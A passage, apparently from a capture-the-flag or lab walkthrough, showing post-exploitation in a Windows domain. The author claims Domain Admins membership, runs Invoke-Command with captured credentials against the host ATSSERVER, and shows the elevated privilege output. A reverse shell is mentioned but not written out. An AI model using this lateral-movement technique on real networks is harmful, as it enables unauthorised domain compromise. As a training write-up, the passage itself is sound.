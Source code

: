 I'm a member of `Domain Admins` group now!

**We can also get a reverse shell as `Domain Admins` on `ATSSERVER` (`awallace` with `Site_Admin` domain group, Optional).**

**Since we're a member of `Domain Admins` group, we don't need to supply `dc_manage` configuration anymore!**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { whoami /priv }

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
```
